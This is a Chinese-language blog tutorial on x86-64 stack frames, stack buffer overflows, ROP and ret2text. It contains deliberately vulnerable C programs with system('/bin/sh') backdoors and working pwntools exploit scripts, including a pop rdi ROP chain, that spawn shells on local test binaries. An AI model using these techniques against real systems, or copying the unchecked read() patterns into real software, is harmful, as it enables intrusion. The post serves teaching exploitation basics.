+++
date = '2026-03-05T18:00:00+08:00'
draft = false
title = '栈帧、栈溢出、ROP、ret2text'
categories = ["Pwn", "ret2text", "ROP"]
series = ["Pwn"]
series_order = 3
summary = "超级嗨客的基础课 --- 栈攻击"
+++

活跃的栈帧由栈顶和栈底划定，同一时刻只有一个活跃的函数及栈帧，那么栈帧是什么样的？它如何和函数配合工作的？

## 栈帧

以一个简单的64位程序为例子，观察`add`函数调用时栈的情况，去讲解这个过程：

```c
// gcc -fno-stack-protector -no-pie -z lazy -O0 test.c -o test

# include <stdio.h>

int add(int a, int b, int c, int d, int e, int f, int g){
    return a + b + c + d + e + f + g;
}

int a = 1;

int main(void){
    int b = 2;
    int c = 3;
    int d = 4;
    int e = 5;
    int f = 6;
    int g = 7;
    add(a, b, c, d, e, f, g);
    return 0;
}
```

其`main`函数汇编代码如下：

```asm
gadget 0:
    endbr64
    push    rbp
    mov     rbp, rsp

gadget 1:
    sub    rsp, 0x20
    mov    dword ptr [rbp - 4], 2
    mov    dword ptr [rbp - 8], 3
    mov    dword ptr [rbp - 0xc], 4
    mov    dword ptr [rbp - 0x10], 5
    mov    dword ptr [rbp - 0x14], 6
    mov    dword ptr [rbp - 0x18], 7

gadget 2:
    mov    eax, dword ptr [rip + 0x2e8f]
    mov    r9d, dword ptr [rbp - 0x14]
    mov    r8d, dword ptr [rbp - 0x10]
    mov    ecx, dword ptr [rbp - 0xc]
    mov    edx, dword ptr [rbp - 8]
    mov    esi, dword ptr [rbp - 4]
    mov    edi, dword ptr [rbp - 0x18]
    push   rdi
    mov    edi, eax

gadget 3:
    call   add

gadget 4:
    add    rsp, 8

gadget 5:
    mov    eax, 0
    leave
    ret
```

### 函数序言

我们编写C语言代码时，程序的入口都是`main`函数，实际上一个真正的程序入口函数是`start`函数，start函数负责一些初始化工作，初始化完成后调用main函数执行程序的主要工作。从start函数转换到main函数，使用了函数序言`gadget 0`。这个序言是编译时给每个函数加上的**通用的一段代码**，起到一个**安全检查和备份寄存器数据**的作用，至于具体有什么用，咱们一会在`add`的函数序言再说。

总之现在还啥都没干，栈帧是空的：



### 局部变量的储存

在main函数中，我们声明了6个局部int变量，因此`gadget 1`开辟了一片空间去存储这6个变量。由于**栈向低内存地址生长**，因此rsp**减去对应大小字节**以开辟对应空间。

int型变量占用4字节，6个变量理论上只需要24字节的空间，不过**64位程序栈空间要求栈指针16字节对齐**，因此向上取个32字节取整。**在32位程序中，理论上只有4字节对齐要求，但是有些编译器也会保证16字节对齐**。

可以发现，程序**以栈底为参考，去寻找局部变量的地址**，此时的栈帧布局如下：



（rbp下面还有16字节的东西，是干什么用的呢？一会到`add`再说）

### 参数传递

在`gadget 2`中，程序将栈区的局部变量和`.data`段的全局变量一起传参，其中`a`作为**非零全局变量**存储在`.data`段，并且以`rip`为参考寻址。

在64位程序中，函数的前六个参数通过`rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`传递，**之后的参数都会压栈，通过栈传递**。而**在32位程序中，所有的参数都通过栈传递**。程序在传递参数时使用的是e寄存器，只操作低4字节，清空用不到的高4字节，可以**以更少的字节数写出相同效果的指令**。参数`g`先赋值给rdi再压入栈中，而参数`a`先赋值给rax再赋值给rdi。

栈帧布局如下：



### 函数调用、栈帧开辟

接下来在`gadget 3`中调用`add`函数，看一下`add`的汇编代码：

```asm
endbr64
push   rbp
mov    rbp, rsp
mov    dword ptr [rbp - 4], edi
mov    dword ptr [rbp - 8], esi
mov    dword ptr [rbp - 0xc], edx
mov    dword ptr [rbp - 0x10], ecx
mov    dword ptr [rbp - 0x14], r8d
mov    dword ptr [rbp - 0x18], r9d
mov    edx, dword ptr [rbp - 4]
mov    eax, dword ptr [rbp - 8]
add    edx, eax
mov    eax, dword ptr [rbp - 0xc]
add    edx, eax
mov    eax, dword ptr [rbp - 0x10]
add    edx, eax
mov    eax, dword ptr [rbp - 0x14]
add    edx, eax
mov    eax, dword ptr [rbp - 0x18]
add    edx, eax
mov    eax, dword ptr [rbp + 0x10]
add    eax, edx
pop    rbp
ret
```

`call`指令可以看作两个指令：`push rip; jmp`，这样会在栈上存储rip寄存器的值，保证返回到指定的地址。

`add`函数也有函数序言，在这里详细解释一下序言的意义：

- `endbr64`是一个检查语句，当程序用`call`或`jmp`指令**间接跳转**时，会检查跳转地址是否是这个语句，是则允许控制流继续执行，不是则拒绝执行。

- 而`push rbp; mov rbp, rsp`相当于在栈上存储了rbp的值后移动了rbp。由于调用了新的函数，活跃栈帧发生了变化，而`add`函数返回后活跃栈帧会回到`main`的栈帧，因此存储旧rbp的值便于恢复栈帧。

所以说函数的调用以及其序言，在**栈帧高处**存储了返回地址和rbp的值，而**新的rbp指向栈上存储的旧的rbp**：



接下来开始执行累加指令，先将寄存器中存储的参数写到栈上，然后依次将参数取出放到**edx和eax**中计算，最后结果存储到eax中。实际上这个函数没有什么内部的变量，因此不需要开辟一片空间去专门存储数据，栈帧始终是空的。

### 函数返回、栈帧销毁

函数返回时，先**将rbp弹出**，由于`add`函数的栈帧是空的，rsp指向的就是旧的rbp，直接`pop rbp`弹出即可；如果像`main`函数一样，栈帧内有数据，rsp没有立刻指向该值，则用`leave`指令，该指令可以看作`mov rsp, rbp; pop rbp`两个指令，先让rsp指向该值，再弹出该值。

接下来`ret`，其本质为`pop rip`，也就是将存储的返回地址弹出到rip中，从而改变控制流，回到上一个函数。

由于add函数通过栈传递了一些参数，而现在用不到这个参数，在`gadget 4`**回收栈空间**，因此`add rsp, 8`，将存储参数7空间排出栈帧空间，栈帧布局如下：



接下来设置rax为0，即main函数返回值，然后弹出旧rbp和返回地址，回到start函数，之后程序执行结束正常退出。

## 栈溢出

根据上面的流程，一句话总结栈帧的特点：**栈帧内部存储函数的局部变量，高处存储rbp的缓存值和返回地址**，在C语言代码中看起来每个变量都是分开来的，但实际在内存中所有数据都挨到一起，**没有隔断**。那么操作某一处数据时有没有可能会影响到其他的数据，造成一些不可控的后果呢？

我们先测试一下：

```c
# include <stdio.h>

int main(void){
    int a[4] = {1, 2, 3, 4};
    for(int i = 0; i < 6; i ++){
        printf("%#x\n", a[i]);
    }
    return 0;
}
```

很明显i越界了，但是程序依然能跑，这说明程序**不会检查**你操作某一处数据时会不会影响其他数据：

```terminal
$ ./test
0x1
0x2
0x3
0x4
0x3a83dc30
0x7ffd
```

那么只要程序提供了这个机会，我们就可以实现**栈上其他数据的泄露和改写**，进而造成一些安全问题，比如下面这个例子：

```c
// gcc -fno-stack-protector -no-pie -z lazy -O0 test.c -o test

# include <stdio.h>

int main(void){
    char a[0x10];
    int b = 0;
    read(0, a, 0x20);

    if(b != 0){
        printf("Success!\n");
    }

    return 0;
}
```

理论上我们无法修改b的值，但是发现我们可以向长度为0x10的缓冲区`a`写入0x20个字符，过量写入有没有可能影响到b的值呢？将程序拖入ida观察栈空间分布：



（为什么缓冲区大小变成了28？这是因为十六进制对齐，在a和b间插入了12字节对齐，但是数据之间没有隔断，因此ida将这12字节也当作缓冲区了）

以rbp为基准，发现缓冲区a的起始位置位于+0x20，b位于+4，那么我们只要写入大于28个字符即可覆盖b的值。我们试一下：

```terminal
$ ./test
01234567890123456789123456781
Success!
```

当b不为0时程序只打印一句话，但如果程序不只打印一句话，而是有一些别的更危险的操作，后果不堪设想；当然这里只是修改了一个局部变量，如果修改别的东西，比如存储的返回地址和rbp值，后果会更加严重，*很可怕吗？是的很可怕。*

## ROP（返回导向编程）

ROP正是这样一种攻击方式，其通过输入漏洞向栈上写入大量数据，修改栈上返回地址，从而控制执行流，在安全防御机制下执行恶意代码。将返回地址修改为指定地址，在函数执行`ret`时就会将该指定值弹出给rip。根据返回目的的不同，基础的ROP可以分为如下几类：

- ret2text：返回到程序的`.text`**节**，这些程序中一般具有一个无法调用的后门函数，攻击的目的是跳转到后门函数。

- ret2libc：返回到程序的**C库**中，通过利用C库中大量的代码片段实现目的。

- ret2syscall：返回到程序的**系统调用句**，通过控制调用号执行任意系统调用。

- ret2shellcode：返回到**注入程序中的恶意代码**，通过构造恶意代码并跳转进行攻击。

除此之外，还有ret2csu、ret2dlresolve、ret2vDSO、SROP、BROP等攻击方式，也有不通过`ret`句，而是围绕`call`、`jmp`等句的COP、JOP等攻击方式，不过这些方式都需要**通过漏洞控制执行流**，而**栈溢出是最主要的一种漏洞利用**。

## ret2text

下面介绍最简单的ROP --- ret2text。有如下一段代码

```c
// gcc -fno-stack-protector -no-pie -z lazy -O0 test.c -o test

# include <stdio.h>
# include <unistd.h>
# include <stdlib.h>

void backdoor(void){
    system("/bin/sh");
}

int main(void){
    char buffer[0x10];
    read(0, buffer, 0x100);
    return 0;
}
```

理论上无法调用后门函数，但发现可以向`buffer`写入过量数据造成溢出，这时我们需要通过溢出修改返回地址，跳转到后门函数。通过ida观察栈空间分布和后门函数如下：




我们需要写满16字节缓冲区，外加8字节rbp存储区，才能修改到返回地址，因此我们**先发送24字节的任意数据，再找到后门函数地址包装成8字节数据写入**。



exp如下：

```py
from pwn import *

backdoor = 0x0000000000401156
io = process("./test")

payload = cyclic(0x18) + p64(backdoor)
io.send(payload)

io.interactive()
```

尝试运行，发现不太对劲：

```terminal
$ python3 1.py
[+] Starting local process './test': pid 5548
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ whoami
[*] Process './test' stopped with exit code -11 (SIGSEGV) (pid 5548)
[*] Got EOF while sending in interactive
```

### 16进制对齐

出现这种情况说明并没有成功执行后门函数内的语句，我们尝试附加调试器，跟踪一下看看出现了什么问题：

```py
from pwn import *

def check():
    if io.poll() is None: # 由于一启动程序就附加调试器，可能附加过早导致失败，该if句在检测到进程正常运行后才会执行附加
        gdb.attach(io)
        pause() # 附加后暂停程序方便检查
backdoor = 0x0000000000401156
io = process("./test")

check()
payload = cyclic(0x18) + p64(backdoor)
io.send(payload)

io.interactive()
```

发现在`<do_system+363>`出现问题，报错信息为**not aligned to 16 bytes**。



出现问题的原因是64位ubuntu18以上系统调用`system`函数时需要**16进制栈对齐**，也就是说，当我们正式调用`system`函数时，该函数地址存储的地址末尾必须为0。在x64的架构中，每一个“内存格”都是64bit（8字节），我们注意到`backdoor`中的序言`push rbp`会将8字节的数据压入栈中，破坏对齐，**跳过这串指令**即可对齐。

更新的exp如下：

```py
from pwn import *

ret = 0x000000000040115B # 跳过了push rbp
io = process("./test")

payload = cyclic(0x18) + p64(ret)
io.send(payload)

io.interactive()
```

```terminal
$ python3 1.py
[+] Starting local process './test': pid 7285
[*] Switching to interactive mode
$ whoami
kioroshiaki
```

### ROP链传参

在上面的例子中，后门函数直接指定了执行`/bin/sh`命令，但是有时候，执行什么命令也得由我们**自己决定**，比如下面这段代码

```c
// gcc -fno-stack-protector -no-pie -z lazy -O0 test.c -o test

# include <stdio.h>
# include <unistd.h>
# include <stdlib.h>

char binsh[] = "/bin/sh\x00";

void backdoor(char* command){
    system(command);
}

asm("pop %rdi; ret");

int main(void){
    char buffer[0x10];
    read(0, buffer, 0x100);
    return 0;
}
```

可以看到，后门函数需要手动传入命令作为参数，程序中也刚好有这串字符串，根据上面提到的函数调用时参数的存储位置，命令字符串的地址作为第一个参数，应当传入rdi寄存器，而程序中也正好内联了一个`pop rdi; ret`的指令，让我们传参，那么如何溢出，做到先传参后跳转呢？这里就需要设计一个**ROP链**，它的结构是这样的：



我们分析一下设计原理：溢出后程序会先跳转到`pop rdi`完成传参，因此在跳转地址后需要紧跟rdi数据，之后执行`ret`指令，如果我们再加上后门函数的地址，就可以达到传参后跳转的作用，示意图如下：



看起来像一个链表，每个节点都有**一个指针和一个数据**，只不过有时候数据是空的，如此就能做到多次劫持控制流，达成自己的目的，我们调试一下，脚本如下：

```py
from pwn import *

binsh = 0x0000000000404020
backdoor = 0x000000000040116D
pop_rdi = 0x0000000000401175
io = process("./test")

payload = cyclic(0x18) + p64(pop_rdi) + p64(binsh) + p64(backdoor)
io.send(payload)

io.interactive()
```

```terminal
$ python3 1.py
[+] Starting local process './test': pid 2947
[*] Switching to interactive mode
$ whoami
kioroshiaki
```

## 后记

本篇文章讲述了栈溢出的基础知识，包括栈结构、栈溢出原理、ROP的概念、ret2text，老实说知识点挺碎的，我已经尽我所能把他们串到一起了。。

那么ret2text的攻击方式是跳转到程序中的后门函数，但是如果程序没有后门函数那怎么办？我们仍然有机会通过ROP链创造攻击条件，比如ret2libc，详细原理会在下一篇讲到。